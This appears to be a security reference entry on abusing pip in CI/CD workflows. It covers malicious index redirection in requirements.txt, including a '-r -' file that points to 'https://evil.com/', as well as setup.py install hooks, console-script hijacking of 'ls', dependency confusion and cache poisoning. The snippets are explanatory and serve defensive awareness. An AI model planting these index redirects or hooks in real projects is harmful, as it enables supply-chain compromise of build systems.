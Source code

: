 ```yaml
---
title: pip
tags:
- cli
- input-file
- eval-py
- env-var
references:
- https://pip.pypa.io/en/stable/cli/pip_install/
- https://pip.pypa.io/en/stable/topics/secure-installs/
- https://pip.pypa.io/en/stable/reference/build-system/
files: [requirements.txt, constraints.txt, setup.py, pyproject.toml]
---
```


`pip` is the standard package installer for Python.

# `requirements.txt`

When a workflow executes `pip install -r requirements.txt`, it will use the directives within that file. 

An attacker can add a malicious package that they host on Pypi to `requirements.txt`. 

`--index-url` or `-i`: An attacker can set a malicious package index directly in `requirements.txt`. Those flags allow to overwrite the standard Pypi registry with an attacker-controlled registry.

These flags in `requirements.txt` take the highest priority over environment variables and `pip.conf` or `pip.ini`. Only a flag in the command (eg. *`pip install -r requirements.txt -i https://blabla.com`*) will take priority over them. 
If several flags `-i` are present in `requirements.txt`, the last one will be applied. 


An attacker can use `-r {file_name}` to **recursively include** the content of `file_name` in `requirements.txt`.

```py
# 'requirements.txt' file
pandas
numpy==1.26.4
-r -
```
```py
# '-' file
-i https://evil.com/
```

 In just 3 characters, the file `-` can redirect the index for all packages in the file.

# Local Package Installation
A requirements.txt file can point to a local directory. This makes the runner download an attacker-controlled package. 

```toml
# 'requirements.txt' file 
./path/to/malicious_local_package
```

# `constraints.txt`
A constraints file `constraints.txt` can specify package versions and index url using the flags `--index-url` or `-i`. `constraints.txt` is only used by pip when explicitly called in the command: `pip install -r requirements.txt -c constraints.txt`. It allows to overwrite the standard Pypi registry with an attacker-controlled registry. 

If there is also --index-url specified in `requirements.txt.`, the one in `constraints.txt` will be overridden by one in requirements.txt.

# `setup.py`
`setup.py` is automatically called by `pip` when it installs a local package with `pip install ./package_name`, a local package in `requirements.txt` or uses `pip install .`.  

`setup.py` can define post-install scripts that are automatically run after installation with `pip install`. This leads to python code execution. 

```py
# 'setup.py' file

from setuptools.command.install import install
class CustomInstallCommand(install):
    def run(self):
        # malicious code 
        ...

setup(
    name='malicious',
    version='0.1.0',
    cmdclass={
        'install': CustomInstallCommand,
    },
)
```

# Command hijacking

`pyproject.toml` or `setup.py` is automatically called by `pip` when it installs a local package with `pip install ./package_name`, local package in `requirements.txt` or `pip install .`.  

`pyproject.toml` and `setup.py` can define scripts that are added to the environment's PATH. This can be used to override legitimate commands used later in a workflow, as local paths are often prioritized. This attack works even for wheel (.whl) distributions where setup.py is not executed at install time.

Scripts in `pyproject.toml` can be defined under [project.scripts]. In `setup.py`, they can be defined in entry_points.console_scripts. 
```py
# 'setup.py' file 

setup(
    ...
    entry_points={
        'console_scripts': [
            'ls' = malicious_ls:main',
        ],
    },
)
```

```toml
# 'pyproject.toml' file

[build-system]
...

[project]
...

[project.scripts]
ls = "malicious_ls:main"
```
Here an attacker defined a malicious `main` function in `malicious_ls.py` to replace the `ls` command. Every time `ls` will be used, the attacker's script will run instead of the legitime `ls`. 

# Extra index url
The attacks described above that use `-index-url` can also be applied to `--extra-index-url`. This flag adds another index registry, which is used in parallel with the one defined in the index URL (Pypi by default). There is no priority between the two; the most recent version takes precedence. If the same version is found in both, pip chooses one or the other pseudo-randomly. Consequently, an attacker could launch a dependency confusion attack. 

# Cache Poisoning
The attacks described present a significant threat in CI/CD environments that share a dependency cache between workflows. Once a package is downloaded, it is stored in the cache. This cache can be shared between runners for optimisation purposes.  

If non-vulnerable CI runners retrieve dependencies from a shared cache without verifying their hash against the legitimate index (Pypi) — which they do not and cannot do — they will use the attacker's poisoned version.

A single vulnerable workflow can thereby compromise other, unrelated workflows that share its cache.